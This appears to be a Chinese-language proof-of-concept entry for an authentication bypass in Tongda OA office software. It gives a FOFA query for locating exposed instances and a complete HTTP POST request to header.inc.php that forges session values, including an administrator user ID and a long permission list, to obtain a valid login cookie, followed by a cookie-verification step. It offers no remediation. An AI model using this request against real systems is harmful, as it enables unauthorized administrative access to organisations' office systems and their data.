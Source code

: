 ## 通达OA header身份认证绕过漏洞
通达OA（Office Anywhere网络智能办公系统）是中国通达公司的一套协同办公自动化软件，通达OA2013，通达OA2016，通达OA2017 存在身份认证绕过漏洞，攻击者通过构造特定的数据包，获取登录cookie，利用cookie进行未授权访问。

## fofa
```
title="office Anywhere"
```


## poc
```
POST /module/retrieve_pwd/header.inc.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024

_SESSION[LOGIN_THEME]=15&_SESSION[LOGIN_USER_ID]=1&_SESSION[LOGIN_UID]=1&_SESSION[LOGIN_FUNC_STR]=1,3,42,643,644,634,4,147,148,7,8,9,10,16,11,130,5,131,132,256,229,182,183,194,637,134,37,135,136,226,253,254,255,536,24,196,105,119,80,96,97,98,114,126,179,607,539,251,127,238,128,85,86,87,88,89,137,138,222,90,91,92,152,93,94,95,118,237,108,109,110,112,51,53,54,153,217,150,239,240,218,219,43,17,18,19,15,36,70,76,77,115,116,185,235,535,59,133,64,257,2,74,12,68,66,67,13,14,40,41,44,75,27,60,61,481,482,483,484,485,486,487,488,489,490,491,492,120,494,495,496,497,498,499,500,501,502,503,505,504,26,506,507,508,515,537,122,123,124,628,125,630,631,632,633,55,514,509,29,28,129,510,511,224,39,512,513,252,230,231,232,629,233,234,461,462,463,464,465,466,467,468,469,470,471,472,473,474,475,200,202,201,203,204,205,206,207,208,209,65,187,186,188,189,190,191,606,192,193,221,550,551,73,62,63,34,532,548,640,641,642,549,601,600,602,603,604,46,21,22,227,56,30,31,33,32,605,57,609,103,146,107,197,228,58,538,151,6,534,69,71,72,223,639,

```
![image](../../images/b5cf4a04-f5e9-47d5-b463-528fac5133c0.png)

第二步：验证cookie是否有效
![image](../../images/161f8b28-059c-4132-b9b7-8435dd124e14.png)

![image](../../images/f44e5dc2-2a95-4900-9f71-9001ef870980.png)
